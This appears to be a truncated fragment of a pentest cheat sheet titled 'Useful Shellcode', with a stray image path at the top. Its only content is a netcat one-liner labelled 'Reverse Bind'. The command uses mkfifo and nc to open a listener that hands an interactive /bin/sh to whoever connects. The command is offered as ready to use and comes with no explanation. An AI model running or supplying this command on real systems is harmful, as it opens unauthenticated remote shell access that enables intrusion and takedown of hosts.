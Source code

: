 # Useful Shellcode

## Netcat
* Linux Bash:
    1. Reverse Bind: `mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
       